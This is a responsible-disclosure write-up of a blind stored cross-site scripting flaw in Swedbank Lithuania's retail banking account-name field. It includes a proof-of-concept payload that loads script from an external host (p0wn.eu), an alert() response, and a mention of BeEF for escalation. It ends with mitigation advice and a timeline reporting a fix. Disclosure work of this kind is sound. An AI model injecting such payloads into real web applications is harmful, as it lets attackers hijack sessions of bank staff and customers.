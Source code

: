 SWEDBANK: Blind Stored Cross-Site-Scripting in Retail Banking
=============================================================

Description
-----------
A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with char limit of 35. The internet banking application hosted at https://www.swedbank.lt/private is vulnerable to a blind Stored-Cross-Site-Scripting attack in the this account name field. 
A malicious actor can set a specially crafted payload and save it to the own account. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail clients could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

Proof-of-Concept
----------------
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
`pageId = private.home.important.aliases`

Then change any account name to this payload:
```
A<script src=“//p0wn.eu”></script>
```
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop (browser):
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
